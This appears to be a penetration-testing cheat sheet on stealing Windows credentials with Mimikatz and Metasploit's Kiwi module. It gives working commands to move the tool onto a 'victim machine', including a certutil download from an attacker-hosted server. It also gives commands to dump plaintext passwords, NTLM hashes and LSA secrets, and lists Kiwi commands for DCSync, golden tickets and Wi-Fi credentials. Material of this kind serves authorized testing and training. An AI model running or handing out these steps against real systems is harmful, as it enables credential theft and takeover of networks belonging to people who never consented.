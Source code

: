 **Mimikatz** allows to extract sensitive data, such as plaintext passwords, password hashes, and Kerberos tickets, directly from a system's memory. Its capabilities, such as credential dumping, Pass-the-Hash, and Golden Ticket attacks, highlight weaknesses in Windows security.


## Transmit and Execute Mimikatz 

To run Mimikatz on a victim machine, you first need to transmit the Mimikatz executable to the machine.

#### Using Metasploit

```bash
cd C:\\Windows\\Temp\\
upload /usr/share/windows-resources/mimikatz/x64/ 
# nce uploaded, you can execute it through the Meterpreter session
execute -f C:\\Windows\\Temp\\mimikatz.exe
```

#### Using Python server

```bash
# Linux machine
python3 -m http.server 8000
# Windows machine
certutil -urlcache -f http://<attacker-ip>:<port>/mimikatz.exe mimikatz.exe
# Execute
start C:\Windows\Temp\mimikatz.exe
```

## **Enable Debug Privileges**

For Mimikatz to interact with Windows security processes like LSASS (Local Security Authority Subsystem Service), you must grant it the necessary privileges. This is done by enabling the `debug` privilege within Mimikatz:

```bash
privilege::debug
```


## **Dumping Credentials**

Mimikatz can dump various credentials, such as passwords, hashes, and Kerberos tickets, from memory. Below are the most common commands to extract these credentials:

1.  **Dumping Plaintext Passwords**

To dump all plaintext passwords and related information from the memory:

```bash
sekurlsa::logonpasswords
```

This command displays detailed information about the current user's session, including usernames, domain names, and plaintext passwords if available.

2.  **Dumping NTLM Hashes**

To extract NTLM hashes of users' passwords:

```bash
lsadump::sam
```

This dumps the hashes of local user accounts stored in the SAM (Security Account Manager) database.


3.  **Dumping secrets**

The `lsadump::secrets` command in Mimikatz is used to extract secrets (like password hashes, Kerberos keys, and other sensitive data) from the LSA (Local Security Authority) secrets database in Windows systems.

```bash
lsadump::secrets
```

## Dumping Credentials with Kiwi
The **Kiwi module** in Metasploit is a module based on the **mimikatz** tool and allows you to extract sensitive data, such as plaintext passwords, password hashes, and Kerberos tickets, from a compromised machine. Here's a breakdown of how to use it for dumping credentials.

#### Usage

In your Metasploit console, you need to load the `kiwi` module to interact with the victim machine’s memory.

```bash
load kiwi
```

Once you have gained the Meterpreter session you can execute the following commands:

|**Command**|**Description**|
|---|---|
|`creds_all`|Retrieve all credentials (parsed)|
|`creds_kerberos`|Retrieve Kerberos credentials (parsed)|
|`creds_msv`|Retrieve LM/NTLM credentials (parsed)|
|`creds_ssp`|Retrieve SSP credentials (parsed)|
|`creds_tspkg`|Retrieve TsPkg credentials (parsed)|
|`creds_wdigest`|Retrieve WDigest credentials (parsed)|
|`dcsycn`|Retrieve user account information via DCSync (unparsed)|
|`dcsycn_ntlm`|Retrieve user account NTLM hash, SID, and RID via DCSync (unparsed)|
|`golden_ticket_create`|Create a golden Kerberos ticket|
|`kerberos_ticket_list`|List all Kerberos tickets (unparsed)|
|`kerberos_ticket_purge`|Purge any in-use Kerberos tickets|
|`kerberos_ticket_use`|Use a Kerberos ticket|
|`kiwi_cmd`|Execute an arbitrary Mimikatz command (unparsed)|
|`lsa_dump_sam`|Dump LSA SAM (unparsed)|
|`lsa_dump_secrets`|Dump LSA secrets (unparsed)|
|`password_change`|Change the password/hash of a user|
|`wifi_list`|List WiFi profiles/credentials for the current user|
|`wifi_list_shared`|List shared WiFi profiles/credentials (requires SYSTEM privileges)|